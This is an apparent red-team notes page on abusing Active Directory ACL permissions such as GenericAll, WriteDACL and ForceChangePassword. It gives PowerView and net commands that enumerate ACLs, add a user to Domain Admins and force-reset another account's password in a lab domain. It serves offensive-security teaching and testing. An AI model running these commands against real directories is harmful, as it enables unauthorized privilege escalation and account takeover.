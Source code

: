 # Abusing Active Directory ACLs/ACEs

{% hint style="danger" %}
WIP
{% endhint %}

## Context

Some of the exploitable permissions:

* **GenericAll** - full rights to the object \(add users to a group or reset user's password\)
* **GenericWrite** - update object's attributes \(i.e logon script\)
* **WriteOwner** - change object owner to attacker and have full control over the object
* **WriteDACL** - modify object's ACEs and give attacker full control right over the object
* **AllExtendedRights** - ability to add user to a group or reset password
* **ForceChangePassword** - ability to change user's password
* **Self \(Self-Membership\)** - ability to add yourself to a group

## Execution

### GenericAll on User

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-17-14.png)

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-19-43.png)

![](../../.gitbook/assets/screenshot-from-2018-11-07-20-23-18.png)

### GenericAll on Group

```csharp
Get-NetGroup "domain admins" -FullData
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-50-20.png)

```csharp
 Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-09-52-10.png)

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/peek-2018-11-08-10-07.gif)

```csharp
# with active directory module
Add-ADGroupMember -Identity "domain admins" -Members spotless

# with Powersploit
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

### WriteProperty on Group

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-11-11.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-06-32.png)

### Self \(Self-Membership\) on Group

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-23-52.png)

```csharp
net user spotless /domain; Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"; net user spotless /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-11-25-23.png)

### WriteProperty \(Self-Membership\)

```csharp
Get-ObjectAcl -ResolveGUIDs | ? {$_.objectdn -eq "CN=Domain Admins,CN=Users,DC=offense,DC=local" -and $_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-15-21-35.png)

```csharp
net group "domain admins" spotless /add /domain
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-15-22-50.png)

### **ForceChangePassword**

```csharp
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-30-11.png)

```csharp
# powerview
Set-DomainUserPassword -Identity delegate -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-31-52.png)

or a one liner:

```csharp
Set-DomainUserPassword -Identity delegate -AccountPassword (ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-12-58-25.png)

```csharp
$c = Get-Credential
Set-DomainUserPassword -Identity delegate -AccountPassword $c.Password -Verbose
```

![](../../.gitbook/assets/screenshot-from-2018-11-08-14-11-25.png)



## References

{% embed url="https://wald0.com/?p=112" %}

